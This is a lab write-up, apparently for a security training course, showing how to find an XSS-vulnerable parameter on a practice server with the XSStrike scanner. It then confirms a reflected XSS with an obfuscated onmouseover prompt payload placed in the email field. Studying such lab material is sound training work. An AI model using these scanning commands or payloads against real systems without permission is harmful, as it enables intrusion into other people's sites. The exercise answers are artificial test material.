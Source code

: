 # XSS Discovery

### Utilize some of the techniques mentioned in this section to identify the vulnerable input parameter found in the above server. What is the name of the vulnerable parameter?



<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To look for insertion points we entered random values on the application, and then clicked on Register.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we copy the URL as it is:

```
http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com
```

Lastly we'll use the xsstrike tool to explore the parameters:

{% code overflow="wrap" %}
```bash
python xsstrike.py -u "http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As the tool runs, we can see that the a reflection was found in the email!



### What type of XSS was found on the above server? "name only"



To answer this question we have to explore the vulnerability

We take the URL used in the last exercise and add the tested payload:

{% code overflow="wrap" %}
```html
http://94.237.58.33:51035/?fullname=asdasd&username=sdasf&password=testeasdasd&email=test%40test.com<A%0AONmOuSeOver+=+(prompt)``>v3dm0s
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we just paste the modified URL and the prompt appears.

This is a Reflected XSS, we can confirm that by revisiting the page.
